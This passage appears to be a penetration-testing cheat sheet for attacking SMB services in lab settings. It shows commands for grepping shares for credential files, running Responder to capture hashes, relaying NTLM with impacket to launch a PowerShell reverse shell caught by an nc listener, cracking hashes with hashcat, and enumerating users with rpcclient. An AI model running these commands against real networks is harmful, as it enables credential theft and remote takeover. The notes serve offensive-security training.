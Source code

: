 We can then use grep and find to search for specific strings.  

```bash
find /mnt/Finance/ -name *cred*
/mnt/Finance/Contracts/private/credentials.txt
grep -rn /mnt/Finance/ -ie cred
/mnt/Finance/Contracts/private/credentials.txt:1:admin:SecureCredentials!
```

### Nmap

- `sudo nmap 10.129.14.128 -sV -sC -p139,445`
- You can use dedicated smb scripts

### Responder

```bash
# Capture credentials
responder -I <interface name>
# Example
sudo responder -I ens33
```
#### Relay a captured hash

1. Set smb to off in `/etc/responder/Responder.conf`
2. `impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146`
3. Create a powershell reverse shell with [revshells](https://www.revshells.com/)  
`impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e JABjAGwAaQBlA[SNIPPET]'`
4. Once the victim authenticates to our server, we poison the response and make it execute our command to obtain a reverse shell.  
`nc -lvnp 9001`


### Hashcat

```bash
# Crack smb hashes
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

### rpcclient

- `rpcclient -U "" 10.129.14.128` or `rpcclient -U'%' 10.10.110.17`

|Query|Description|
|-----|-----------|
|`srvinfo`|Server information.|
|`enumdomains`|Enumerate all domains that are deployed in the network.|
|`querydominfo`|Provides domain, server, and user information of deployed domains.|
|`netshareenumall`|Enumerates all available shares.|
|`netsharegetinfo <share>`|Provides information about a specific share.
|`enumdomusers`|Enumerates all domain users.|
|`queryuser <RID>`|Provides information about a specific user.|
|`querygroup <RID>`|Provides information about a specific group.|

